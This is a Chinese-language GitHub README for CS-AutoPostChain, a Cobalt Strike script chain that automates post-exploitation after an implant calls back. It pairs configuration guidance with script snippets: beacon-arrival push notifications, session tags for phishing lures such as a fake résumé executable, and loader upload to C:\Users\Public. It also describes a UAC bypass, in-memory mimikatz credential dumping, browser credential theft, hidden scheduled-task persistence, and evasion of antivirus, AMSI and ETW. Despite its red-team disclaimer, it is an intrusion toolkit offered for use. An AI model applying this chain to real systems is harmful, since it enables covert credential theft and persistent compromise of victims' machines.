








## CS-AutoPostChain

<div align="">   </div>

**基于 OPSEC 的 CobaltStrike 后渗透自动化链**


> 本项目结合 LSTAR - CobaltStrike 综合后渗透插件一起使用更佳：https://github.com/lintstar/LSTAR

## 🎉 项目简介

**在攻防实战中发现存在以下困境：**

1. 鱼叉式水坑、社工钓鱼以及威胁猎捕场景下**上线时间不可控**，且无法二十四小时守在电脑附近，同时常见的自动权限维持插件需要提前在目标机器放置木马，并且存在维权上线然后**重复维权的套娃问题**
2. 在 HW 场景下单个主机的信息收集、权限维持和凭据收集等大部分都是重复性操作，且进行 CS 多人协作时容易**重复收集降低效率**
3. 已有的自动化链（上线自动执行 whoami 截图等操作）大部分使用 brun、bshell、bspawn 等 CS 原生敏感命令，容易被杀软检测**关联到木马进程导致掉线**，已不适应如今的攻防场景

**本项目尝试将后渗透攻击链中的部分人工重复性工作借助 CobaltStrike 转变为自动化并兼顾隐蔽性（Bypass）:**

- **遵循 OPSEC（Operations Security）原则，RedTeam 结合 C2 隐匿、木马免杀、工具魔改二开、BOF、自研工具/C2、ATT&CK 攻击手法等结合使用可构建完整的隐蔽自动化链**
- **企业安全建设方面也可借此做自动化内网攻击编排进行内网终端侧、流量侧防护效果的验证。**

## 📜 免责声明

**本项目仅适用于安全研究及合法的企业安全建设行为 一切后果及责任均由使用者本人承担**

## 🌟 功能特性

- **敏感操作通过 BOF 和 C# 程序执行，避免文件落地以及隐蔽动态行为特征**
- **上线主机结合智能化存活判断进行自动权限维持，杜绝重复上线**
- **将 LSTAR 后渗透插件的功能函数化，为不同场景下编排定制化的自动化链提供便利**
- **Bypass AV  ① 动态查杀 ②  Windows Defender 的 AMSI/ETW**
- **C# 内存加载 + BOF + 定制化免杀工具及技术 = 无限可能**

## 🚀 流程编排

**项目 CNA 脚本默认配置未做任何操作，仅做存活权限信息判断和控制台打印信息**

**‼️ 请在理解原理的情况下结合实战需求进行合理配置，整体实现思路详见：https://xz.aliyun.com/t/14076**

### 上线微信通知

冲锋马上线时建议取消注释 bsleep，上线默认激活 Beacon 执行自动化链内容（等效控制台 Sleep0 命令）



#### 配置 Token

**http://www.pushplus.plus/push1.html  复制自己的 token 替换到参数定义的地方**

```shell
$pushplusToken = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
```

Server 酱同理

```shell
$serverchanKey = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
```

根据需要注释对应配置代码



#### 服务端后台挂载

使用 agscript 在服务器端运行 cna 文件，和挂载 CobaltStrike 一样，把 cna 脚本也挂载到后台：

```shell
root@VM-8-8-ubuntu：~# screen -S AutoPostChain
root@VM-8-8-ubuntu：~# ./agscript [host] [port] [user] [pass] </path/to/AutoPostChain.cna>
```

这里 agscript 的用法为：

```
 ./agscript [host] [port] [user] [pass] </path/to/file.cna>
```

- [host] # 服务器的 ip 地址。
- [port] # cs 的端口号，启动 cs 时有显示。
- [user] # 后台挂载脚本时连接到 teamserver 的用户名。
- [pass] # 启动服务端 cs 时设置的密码。
- [path] # cna 文件的路径。

### 上线提醒标记

除去常规提醒外，当有多台 C2 服务器时，配置好 cserverName 参数可以在通知标题进行上线提醒的区分：

```shell
$cserverName = "AT";
```



攻防场景下可通过上线进程来自动标记是针对哪个目标的终端权限上线了：

```shell
sub Note {
    if ($processName eq "beacon.exe") {
        bnote($1, "test");
    }
    else if ($processName eq "个人简历.exe") {
        bnote($1, "XX单位社工钓鱼");
    }
    else if ($processName eq "javaEE.exe") {
        bnote($1, "维权上线");
    } 
    else if ($processName eq "Update.exe") {
        bnote($1, "BypassUAC上线");
    } 
}
```



### 智能化权限维持

**‼️ 相关工具脚本只做示例演示，请使用本项目时结合实战场景进行针对性免杀和二次开发**

#### 配置Loader

制作好免杀的维权马后放到 scripts 目录下，配置以下参数：

```shell
# Loader 路径
$LoaderName = "Update.exe";
$LoaderPath = "C:\\Users\\Public\\";
$LoaderFullPath = $LoaderPath.$LoaderName;
$b64encodeFullPath = "QzpcVXNlcnNcUHVibGljXFVwZGF0ZS5leGU=";
```

`$b64encodeFullPath` 为维权马 Windows 完整路径 `C:\\Users\\Public\\Update.exe` Base64 加密后的内容，只是为了配合 SharpBypassUAC 工具参数输入，实际情况请替换其他动态行为免杀的 BypassUAC 程序。

#### 配置用户执行链

取消注释以下代码



**这里用两个场景函数进行编排示例：**

- `NormalUser_Chain` 函数用来编排不需要管理员权限即可执行的操作如信息收集、屏幕截图、上传文件等；
- `OnlyAdmin_Chain` 函数用来编排只有管理员权限才能做的操作比如凭据获取、隐蔽权限维持等。

**其中 `NormalUser_Chain` 执行流程如下：**

1. 上传木马到指定目录：

   ```shell
   sub UP_Loader {
       bcd($1, $LoaderPath);
       blog($1,"\c9开始上传 Loader");
       bupload($1, script_resource("/scripts/".$LoaderName));
       blog($1, "\c8Loader 文件上传完成");
       blog($1, "\c8Loader文件位置：$LoaderFullPath");
   }
   ```

2. 调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot ；

3. 调用 `inlineExecute-Assembly` 函数通过 SharpHostInfo 扫描当前 C 端主机信息。


而 ` BypassUAC` 调用 `inlineExecute-Assembly` 函数执行 SharpBypassUAC 工具通过 `computerdefaults` 技术以及编码后的木马路径进行 UAC 绕过，并上线管理器权限 Session。

**最后 `OnlyAdmin_Chain` 执行流程如下：**

1. 调用 `inlineExecute-Assembly` 函数执行 SharpKatz 工具内存中加载 mimikatz 获取主机凭据；
2. 执行 Pillager BOF 程序不落地的情况下收集主机浏览器、软件、账户凭据等敏感信息；
3. 调用 `inlineExecute-Assembly` 函数执行 SharpSchTask 工具进行隐蔽权限维持。



#### 场景流程编排

通过 `isadmin` 结合存活权限判断实现上述执行场景流程的编排：



这样通过 BypassUAC 二次上线管理员权限时，将只会执行 `OnlyAdmin_Chain($1);` ：



此场景流程编排仅做示例使用，请结合实际需求和实战场景移植相应 BOF 功能等技术进行配置。

## 👍 参考项目

- https://github.com/h0e4a0r1t/Automatic-permission-maintenance
- https://github.com/gooderbrother/antiVirusCheck
- https://github.com/anthemtotheego/InlineExecute-Assembly
- https://github.com/trustedsec/CS-Situational-Awareness-BOF
- https://github.com/qwqdanchun/Pillager
- https://github.com/shmilylty/SharpHostInfo
- https://github.com/FatRodzianko/SharpBypassUAC
- https://github.com/0x727/SchTask_0x727
